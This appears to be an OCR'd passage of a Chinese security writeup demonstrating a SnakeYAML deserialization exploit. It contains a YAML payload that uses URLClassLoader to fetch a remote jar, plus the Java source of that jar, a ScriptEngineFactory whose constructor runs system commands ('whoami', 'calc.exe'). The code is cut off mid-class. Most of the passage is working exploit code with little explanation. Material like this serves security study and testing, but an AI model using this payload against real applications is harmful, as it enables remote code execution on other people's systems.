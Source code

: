 ```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1/yaml-payload.jar"]
  ]]
]

```

jar是我们远程加载的恶意文件，源码如下

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("whoami");
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

```